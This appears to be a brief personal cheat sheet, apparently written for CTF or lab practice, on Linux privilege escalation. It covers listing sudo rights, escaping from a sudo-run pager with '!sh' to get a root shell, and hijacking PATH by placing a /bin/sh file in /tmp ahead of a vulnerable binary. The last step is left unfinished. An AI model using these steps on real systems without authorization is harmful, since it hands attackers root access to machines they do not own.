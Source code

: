 ~Check what command you are able to run as sudo 

$ sudo -l 

~then if it says you can run a command as sudo, run the command, example systemctl status. Then when in there, give the comment to spawn root shell 

$ !sh 

$ whoami

/////////////////////////////////////////////////////////////////////////////

If there is no sudo privileges at all. 
1. You can check what groups the user is in.
2. If part of a unique group like 'bugtracker', run locate to see if a binary exists.
3. check out the binary, and if it can run things as elevated do next step
4. go to /tmp folder and create a file with the contets :     /bin/sh
5. Then change permisssion on that file:  chmod +x
6. Then add /tmp to PATH variable to make it an executable run-able directory: export PATH=/tmp:$PATH
7. Run the vulnurable binary from that directory and try to locate root folder
8. 
-